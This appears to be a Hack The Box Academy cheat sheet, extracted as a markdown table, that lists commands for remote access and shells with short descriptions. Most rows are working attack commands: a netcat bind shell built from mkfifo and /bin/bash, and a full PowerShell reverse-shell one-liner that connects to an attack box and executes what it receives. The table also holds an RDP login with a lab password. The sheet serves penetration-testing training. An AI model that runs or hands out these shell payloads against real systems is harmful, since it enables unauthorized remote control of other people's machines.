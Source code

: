 | **Commands**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | **Description**                                                                                                                                                                                         |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                    |
| `env`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                             |
| `sudo nc -lvnp <port #>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Starts a `netcat` listener on a specified port                                                                                                                                                          |
| `nc -nv <ip address of computer with listener started><port being listened on>`                                                                                                                                                                                                                                                                                                                                                                                                                                                               | Connects to a netcat listener at the specified IP address and port                                                                                                                                      |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f`                                                                                                                                                                                                                                                                                                                                                                                                                                           | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | `Powershell` one-liner used to connect back to a listener that has been started on an attack box                                                                                                        |